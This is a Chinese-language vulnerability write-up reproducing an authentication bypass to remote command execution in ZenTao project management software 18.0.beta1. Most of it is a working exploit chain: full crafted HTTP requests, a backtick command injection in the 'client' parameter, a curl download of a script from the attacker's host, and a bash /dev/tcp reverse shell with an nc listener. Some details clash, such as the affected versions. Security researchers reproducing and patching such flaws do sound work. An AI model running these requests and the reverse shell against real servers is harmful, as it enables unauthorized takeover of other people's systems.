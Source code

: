 # 禅道 18.0.beta1 版本 权限绕过到命令执行漏洞

> **Created by：**A-little-dragon
>
> **Team：**TracelessSec
>
> **漏洞描述：**禅道 18.0.beta1 版本 权限绕过到命令执行漏洞

# 0x01 简介

禅道是第一款国产的开源项目管理软件，主要管理思想基于Scrum方法论，内置了产品管理和项目管理，同时又根据国内研发现状补充了测试管理、计划管理、发布管理、文档管理、事务管理等功能，在一个软件中就可以将软件研发中的需求、任务、bug、用例、计划、发布等要素有序的跟踪管理起来，完整地覆盖了项目管理的核心流程。

# 0x02 漏洞描述

禅道17.4以下版本存在权限绕过到命令执行漏洞。该漏洞是由于禅道项目管理系统权限认证存在缺陷导致，攻击者可利用该漏洞在未授权的情况下，通过权限绕过在服务器执行任意命令。

# 0x03  影响版本

|        | 影响版本                                        |
| ------ | ----------------------------------------------- |
| 企业版 | 7.4以下的未知版本<=version<=8.0.beta1 8.0.beta2 |
| 开源版 | 17.4以下的未知版本<=version<=18.0.beta1         |
| 旗舰版 | 3.4以下的未知版本<=version<=4.0.beta1           |

# 0x04 环境搭建

官网地址：[https://www.zentao.net/page/download-new.html#/](https://www.zentao.net/page/download-new.html#/)

下载版本：18.0.beta1

将该版本下载至linux centos中的opt目录下，解压后，进入zbox目录

```bash
# 拉取镜像
docker pull easysoft/zentao:18.0.beta1

# 启动容器
docker run --name zentao -p 80:80 -v /www/zentaopms:/www/zentaopms -v /www/mysqldata:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d easysoft/zentao:18.0.beta1

# 运行脚本 部署环境
./zbox start
```

执行完上面3条命令后，浏览器直接访问 `http://宿主机IP:宿主机映射端口`，一直点下一步即可完成配置。

# 0X05 漏洞复现

登陆后，Burpsuite抓包后，发送到重发器中并修改为以下内容

```bash
GET /misc-captcha-user.html HTTP/1.1
Host: 192.168.81.173
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie: zentaosid=u6vl6rc62jiqof4g5jtle6pft2; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
```

修改完毕后放包，接着再次修改请求包内容

```bash
POST /repo-create.html HTTP/1.1
Host: 192.168.81.173
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Referer: http://192.168.81.173//repo-edit-1-0.html
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie: zentaosid=u6vl6rc62jiqof4g5jtle6pft2; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 111

product%5B%5D=1&SCM=Gitlab&name=66666&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
```

结果如下：

![Untitled](image/Untitled.png)

再次修改请求包内容，此时返回包中会包含命令执行的结果

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`id`
```

![Untitled](image/Untitled%201.png)

攻击者本地创新文件`1.sh` ，并写入反弹shell脚本命令

```bash
bash -i >& /dev/tcp/192.168.81.188/8888 0>&1'
```

![Untitled](image/Untitled%202.png)

在该文件所在目录下打开cmd，使用python3启动一个http服务器

```bash
python3 -m http.server 8080
```

![Untitled](image/Untitled%203.png)

再次新建cmd，使用nc监听8888端口

```bash
nc -lnvp 8888
```

![Untitled](image/Untitled%204.png)

burpsuite修改请求包如下：

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Pragma: no-cache
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`curl http://攻击者IP:端口/1.sh -o /tmp/1.sh`
```

放包后，再次修改请求包内容

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Pragma: no-cache
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`bash 1.sh`
```

成功拿到shell

![Untitled](image/Untitled%205.png)